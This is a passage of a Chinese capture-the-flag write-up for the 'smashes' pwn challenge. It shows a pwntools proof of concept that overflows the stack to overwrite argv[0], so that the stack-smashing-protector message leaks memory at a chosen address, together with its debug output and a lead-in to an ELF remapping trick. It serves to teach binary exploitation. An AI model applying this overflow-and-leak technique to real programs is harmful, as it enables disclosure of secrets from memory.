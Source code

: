所以，只要我们能够输入足够长的字符串覆盖掉argv[0]，我们就能让canary保护输出我们想要地址上的值。

听起来很美妙，我们可以试试看。

先写如下poc:

```
from pwn import *
context.log_level = 'debug'

#cn = remote('pwn.jarvisoj.com', 9877)
cn = process('pwn_smashes')
cn.recv()
cn.sendline(p64(0x0000000000400934)*200) #直接用我们所需的地址占满整个栈
cn.recv()
cn.sendline()
cn.recv()

#.rodata:0000000000400934 aHelloWhatSYour db 'Hello!',0Ah         ; DATA XREF: func_1+1o
#.rodata:0000000000400934                 db 'What',27h,'s your name? ',0
#.rodata:000000000040094E ; char s[]
#.rodata:000000000040094E s               db 'Thank you, bye!',0  ; DATA XREF: func_1:loc_400878o
#.rodata:000000000040095E                 align 20h
#.rodata:0000000000400960 aNiceToMeetYouS db 'Nice to meet you, %s.',0Ah
#.rodata:0000000000400960                                         ; DATA XREF: func_1+3Fo
#.rodata:0000000000400960                 db 'Please overwrite the flag: ',0
#.rodata:0000000000400992                 align 8
#.rodata:0000000000400992 _rodata         ends
```

输出结果令我们满意

```
[DEBUG] Received 0x56 bytes:
    'Thank you, bye!\n'
    '*** stack smashing detected ***: Hello!\n'
    "What's your name?  terminated\n"
```

但是，当我们把地址换成flag的地址时，却可以发现flag并没有被打印出来，那是因为在func_1函数的结尾处有这样一句：

```
memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));
```

所以，无论如何，等我们利用canary打印flag的时候，0x600D20上的值已经被完全覆盖了，因此我们无法从0x600D20处得到flag。

这就是这道题的第二个考点，ELF的重映射。当可执行文件足够小的时候，他的不同区段可能会被多次映射。这道题就是这样。
